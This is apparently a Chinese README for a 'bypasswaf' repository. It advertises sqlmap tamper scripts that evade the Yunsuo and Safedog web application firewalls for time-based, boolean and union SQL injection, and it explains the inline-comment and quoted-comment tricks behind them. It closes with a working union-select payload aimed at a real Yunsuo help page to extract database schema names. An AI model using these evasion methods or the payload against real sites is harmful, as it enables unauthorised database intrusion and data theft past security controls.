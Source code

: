 # bypasswaf
#blog  https://pureqh.top
2.0：增加优化了部分规则 现在bypass云锁tamper支持所有的注入类型了！

针对最新版云锁和安全狗的sqlmap自动化绕过脚本<br>

包含：<br>
bypass安全狗 延时、布尔、union注入 <br>
bypass云锁tamper （可0警告绕过云锁）<br>

利用知识点：<br>
安全狗：内联注释<br>
blog:https://pureqh.top/?p=1882<br>
云锁：引号包裹注释符绕过检测<br>
blog:https://pureqh.top/?p=4175<br>

注：bypass云锁 使用双引号可以绕过官网检测
http://help.yunsuo.com.cn/guide/install/?id=1' "/*" union select 1,group_concat(schema_name),2,3 from information_schema.schemata -- "*/"

